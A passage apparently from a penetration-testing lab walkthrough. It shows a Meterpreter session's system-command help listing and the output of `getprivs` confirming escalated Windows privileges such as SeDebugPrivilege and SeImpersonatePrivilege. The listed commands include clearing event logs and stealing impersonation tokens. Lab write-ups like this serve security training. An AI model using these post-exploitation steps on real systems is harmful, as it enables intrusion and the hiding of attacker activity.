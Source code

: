 To verify that we have expanded permissions, use the command `getprivs`
```bash
meterpreter > ?
Stdapi: System Commands
=======================

    Command                   Description
    -------                   -----------
    clearev                   Clear the event log
    drop_token                Relinquishes any active impersonation token.
    execute                   Execute a command
    getenv                    Get one or more environment variable values
    getpid                    Get the current process identifier
    getprivs                  Attempt to enable all privileges available to the current process
    getsid                    Get the SID of the user that the server is running as
    getuid                    Get the user that the server is running as
    kill                      Terminate a process
    localtime                 Displays the target system local date and time
    pgrep                     Filter processes by name
    pkill                     Terminate processes by name
    ps                        List running processes
    reboot                    Reboots the remote computer
    reg                       Modify and interact with the remote registry
    rev2self                  Calls RevertToSelf() on the remote machine
    shell                     Drop into a system command shell
    shutdown                  Shuts down the remote computer
    steal_token               Attempts to steal an impersonation token from the target process
    suspend                   Suspends or resumes a list of processes
    sysinfo                   Gets information about the remote system, such as OS

meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```
